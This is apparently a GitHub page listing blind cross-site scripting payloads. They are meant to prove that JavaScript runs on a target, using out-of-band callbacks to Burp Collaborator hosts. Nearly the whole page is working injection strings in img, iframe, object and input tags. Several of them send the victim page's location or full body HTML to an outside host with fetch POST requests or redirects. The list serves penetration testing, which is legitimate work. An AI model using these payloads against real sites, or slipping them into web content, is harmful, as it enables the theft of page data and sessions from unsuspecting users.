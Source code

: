 Blind XSS Payloads
==================

The following list includes some blind XSS payloads that can be used to proof evaluation of JavaScript using out-of-band communication.


## Image only: HTML Injection without JavaScript
```html
'"><img src="https://example.burpcollaborator.net/image">
```

## Image-Tag XSS Payloads
```html
'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>
```

## iFrame XSS Payloads
```html
'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://ugec8ruy5i83ri1lbq4wjx2j9af33s.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>
```

## Object XSS Payloads
```html
'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>
```

## Input field
```html
<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>
```